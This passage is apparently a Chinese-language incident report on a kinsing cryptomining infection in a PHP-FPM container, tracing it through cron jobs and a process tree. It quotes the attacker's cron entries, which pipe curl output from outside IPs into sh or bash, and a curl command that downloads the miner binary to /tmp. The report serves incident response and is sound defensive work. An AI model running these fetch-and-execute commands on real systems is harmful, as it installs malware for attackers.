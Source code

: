 这两个进程从 8 月 4 日晚启动，与第一次错误日志出现的时间有关联。

搜索后得知，这两个程序是挖矿恶意程序。使用 `kill -9` 强制杀掉后，再次测试 API，能够正常返回数据。

至此可以确认一切的根源就是该挖矿恶意程序导致的。

## 无法完全禁止挖矿恶意程序启动

使用 `kill -9` 命令强制杀死挖矿进程后，发现其会在几分钟内自行重启

查看 supervisor 服务，发现没有类似的配置。再查看 `cron` 服务，发现了异常计划任务。 `* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1`

删除该计划任务，几分钟后又出现了类似的计划任务。 `* * * * * curl http://195.3.146.118/ph.sh | bash > /dev/null 2>&1`

再一次删除计划任务，修改了恶意程序名称后，发现恶意程序被重新下载执行

下载过程中的进程列表如下：

```
root@b3f806f09ccd# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   3992  1152 ?        Ss+  Jan29   0:00 /bin/bash
root        11  0.0  0.0   5504   880 ?        Ss   Jan29   1:18 /usr/sbin/cron
root     10749  0.0  0.1  80588 14492 ?        S    20:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
www-data 10750  0.0  0.1  86932 15836 ?        S    20:17   0:00 php-fpm: pool www
www-data 10751  0.0  0.2  88984 17796 ?        S    20:17   0:00 php-fpm: pool www
www-data 11671  0.0  0.0   2380   652 ?        S    20:57   0:00 sh -c [ -f "/bin/bash" ] && (curl -s http://194.38.20.199/ph.sh||wget -q -
www-data 11673  0.0  0.0   3992  1880 ?        S    20:57   0:00 bash
www-data 11765  0.1  0.0  23096  4832 ?        S    20:57   0:00 curl -o /tmp/kinsing http://194.38.20.199/kinsing
root     11785  0.0  0.0   7632  1412 ?        R+   20:59   0:00 ps aux
```

通过进程列表可以得到 `curl` 命令执行的完整进程树

```
- [0]
  - [10749] php-fpm: master
    - [10750] php-fpm: pool
      - [11671] sh
        - [11673] bash
          - [11765] curl
```

通过进程树发现恶意程序是通过 `php-fpm` 进程执行了 `curl` 命令

## 临时恢复服务

搜索后发现网络上大部分是通过 redis 被注入的恶意代码。

我们的容器没有装 redis，很可能是通过 php-fpm 被注入的，类似于 [关于 linux 病毒 kinsing-kdevtmpfsi 的处理](https://learnku.com/articles/52350) 这篇文章所描述的

所以最终决定借着此次事件，升级到更安全的 PHP 版本，并重新制作镜像。
